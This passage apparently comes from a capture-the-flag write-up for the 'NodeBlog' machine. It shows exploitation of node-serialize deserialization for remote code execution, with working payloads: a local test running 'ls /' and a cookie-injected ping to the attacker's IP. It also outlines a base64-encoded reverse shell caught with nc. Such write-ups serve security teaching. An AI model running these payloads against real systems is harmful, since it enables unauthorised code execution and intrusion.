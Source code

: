 Now that I was able to generate the serialized data, I just have to add the **brackets** and send it to the unserialize function to test the **RCE**. I create a new script, `unserilize.js` and I pass it as parameter the untrusted data (payload) and I can now perform an **RCE** without problems.

```bash
nvim unserialize.js
```

> **unserialize.js**

```javascript
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```

```bash
node unserilize.js
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_42.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Well, it is time to test the **RCE** on the victim machine, for this I am going to send a packet to my attacker machine with `ping` and with `tcpdump`, I see I parse the packets **ICMP**. I just have to **URL encode** the payload and modify the session cookie in the browser. When I refresh the page, I get the expected result.

> **Payload**

```javascript
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.13', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

```bash
tcpdump -i tun0 icmp -n
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_43.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_44.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_45.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I am going to try to access the machine, in order not to have problems with special characters when trying to send me a **Reverse Shell**, I am going to create a file with the necessary commands and use `base64` to encode everything in **Base64**. Then the **RCE** should decode the code in **Base64** and then execute it with `bash`. I follow all the steps again, **URL encode** the **Payload**, replace the session cookie, open a port with `nc` waiting for the **Reverse Shell**, reload the web page and I have access to the machine.
